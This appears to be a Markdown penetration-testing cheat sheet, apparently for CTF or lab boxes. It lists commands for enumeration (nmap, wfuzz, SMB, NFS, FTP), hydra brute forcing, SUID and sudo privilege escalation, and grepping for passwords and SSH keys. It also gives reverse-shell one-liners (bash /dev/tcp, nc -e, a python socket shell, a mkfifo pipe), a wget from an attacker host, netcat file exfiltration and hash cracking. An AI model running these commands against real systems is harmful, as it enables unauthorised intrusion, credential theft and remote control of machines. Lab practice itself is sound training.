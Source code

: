 # Quick Commands

### Initial Enum

 - Sub-domain Enum
```bash
wfuzz -c -f sub-fighter -w WORDLIST.txt -u 'http://site.com' -H "Host: FUZZ.site.com" --hw 290
```

 - Directory Finding
```python
python3 dirsearch.py -u http://site.com -e html,php -x 403 -t 200 -r -R 3
dirb http://192.168.20.141:8080 -r
```

 - Port Scanning
```bash
nmap -T4 TARGET_IP
nmap -sV -T4 TARGET_IP -A -p PORT_LIST
nmap -sV -T4 TARGET_IP -A -p-
```

- Nikto Scan
```bash
nikto -h http://site.com
```

### NFS

```bash
nmap -p PORT --script=nfs-ls,nfs-statfs,nfs-showmount TARGET_IP
showmount -e TARGET_IP
mkdir /tmp/nfsmount
mount -o rw,vers=2 TARGET_IP:/AVAILABLE_DIR /tmp/nfsmount
```

### SMB Enum

```bash
nmap -sV -A -O --script=*vuln* TARGET_IP
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse TARGET_IP
nmap -p 445 --script smb-protocols TARGET_IP
nmap -p 139,445 --script smb-vuln* TARGET_IP

smbmap -H TARGET_IP -P 139

smbclient -L \\\\TARGET_IP -U 'Guest' -N
smbclient \\\\TARGET_IP\\folder -U 'Guest' -N
get FILE
```

### FTP Enum

 - Username = Anonymous, Password = *Blank*
 - USE BINARY MODE FOR FILE TRANSFER!!!!

```bash
ftp TARGET_IP
binary
get FILE
put ATTACK_PC_FILE TARGET_PC_FILE
```

### Brute Forcing

```bash
hydra -l USERNAME -P passwords.txt TARGET_IP ssh
hydra -L users.txt -p PASSWORD TARGET_IP ssh
hydra -L users.txt -P passwords.txt TARGET_IP ftp
```



<br>
<br>

# Quick Commands - ON THE BOX

### UPGRADE SHELL

 - Spawn TTY Shell using one of these:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
/bin/sh -i
```

 1. Press CTRL + Z
 2. Type `stty raw -echo`
 3. Type `fg` and Press Enter (`nc -nvlp PORT` may get printed)
 4. Type `fg` again and Press Enter


### On the Box Enum

```bash
sudo -l
sudo -V

cat /etc/crontab
cat /etc/exports

ps aux
```

### SUDO & SUID

```bash
find / -type f -perm -04000 -ls 2>/dev/null
getcap -r / 2>/dev/null
sudo -u#-1 /bin/bash
```

### Deeper on the Box

```bash
grep --color=auto -rnw '/' -ie "PASSWORD=" --color=always 2> /dev/null
grep -r 'someVariable\["config"\]\["db"\]\["password"\]' /var/www/html/*
```

 - Analyse Program
```bash
strings FILE_NAME

strace FILE_NAME
strace FILE_NAME 2>&1 | grep -i -E "open|access|no such file"

ltrace FILE_NAME

binwalk FILE_NAME
binwalk -e FILE_NAME
```

 - Search for SSH Keys
```bash
find / -name id_rsa 2> /dev/null
find / -name authorized_keys 2> /dev/null
```
 - View commands being run by all users
```bash
./pspy32
./pspy64
```




<br>
<br>

# Other


### General Useful Stuff

 - Netcat
```bash
nc -lvp PORT

nc -l -p PORT > RECV_FILE
nc -w 3 TARGET_IP PORT < SEND_FILE
```

 - File Sharing (HTTP & SMB)
```text
python -m SimpleHTTPServer [PORT]
wget http://ATTACKER_IP:PORT/FILE

python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support SHARE_NAME FOLDER_PATH
copy \\SERVER_IP\SHARE_NAME\FILE .
```

 - Reverse Shells
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
bash -i >& /dev/tcp/IP/PORT 0>&1
nc IP PORT -e /bin/sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f" > /tmp/shell.sh
```

 - Run command as other user (you don't have to be root to run this)
```bash
sudo -u USER COMMAND
```


### Random Tools

 - CMS Scanning
```bash
joomscan
```

 - WordPress Scanning
```bash
wpscan --url [TARGET]
wpscan --url [TARGET] --api-token [API_TOKEN]
wpscan --url [TARGET] --api-token [API_TOKEN] --enumerate u
```

 - Search for exploits
```bash
searchsploit TEXT
searchsploit NUMBER --examine
```

 - Images
```bash
steghide extract -sf IMAGE_FILE
```

- Hash-Identify
```bash
hash-identifier
```

### Hash Cracking Stuff

 - Zip
```bash
zip2john ZIP_FILE > OUTPUT_HASH_FILE
john --format=zip OUTPUT_HASH_FILE
```

 - PGP & ASC
```bash
gpg2john PRIV_KEY.asc > OUTPUT_HASH_FILE
john OUTPUT_HASH_FILE -w=WORD_LIST_FILE
gpg --import PRIV_KEY.asc
gpg --decrypt PAYLOAD.pgp
```

 - KeePass
```bash
keepass2john KEEPASS_FILE > OUTPUT_HASH_FILE
hashcat -m 13400 OUTPUT_HASH_FILE /usr/share/wordlists/rockyou.txt
```

